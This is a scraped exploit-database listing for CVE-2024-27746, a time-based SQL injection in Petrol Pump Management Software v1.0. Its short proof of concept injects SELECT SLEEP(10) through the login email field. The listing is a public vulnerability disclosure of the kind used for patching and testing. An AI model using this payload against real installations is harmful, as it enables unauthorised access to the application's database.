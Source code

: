 ```yaml
---
title: Petrol Pump Management Software v.1.0 - SQL Injection exploit
url: https://sploitus.com/exploit?id=EDB-ID:51838&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-04
fetch_date: 2025-10-04T12:07:45.874816
---
```


# Petrol Pump Management Software v.1.0 - SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Petrol Pump Management Software v.1.0 - SQL Injection CVE-2024-27746

2024-03-03 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51838
# Exploit Title: Petrol Pump Management Software v.1.0 - SQL Injection
# Date: 01-03-2024
# Exploit Author: Shubham Pandey
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html
# Version: 1.0
# Tested on: Windows, Linux
# CVE : CVE-2024-27746
# Description: SQL Injection vulnerability in Petrol Pump Management Software v.1.0 allows an attacker to execute arbitrary code via a crafted payload to the email address parameter in the index.php component.
# POC:
1. Here we go to : http://localhost/fuelflow/index.php
2. Now login with username: test@test.com';SELECT SLEEP(10)# and
Password=test
3. Page will load for 10 seconds because of time-based sql injection
# Reference:
https://github.com/shubham-s-pandey/CVE_POC/blob/main/CVE-2024-27746.md
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)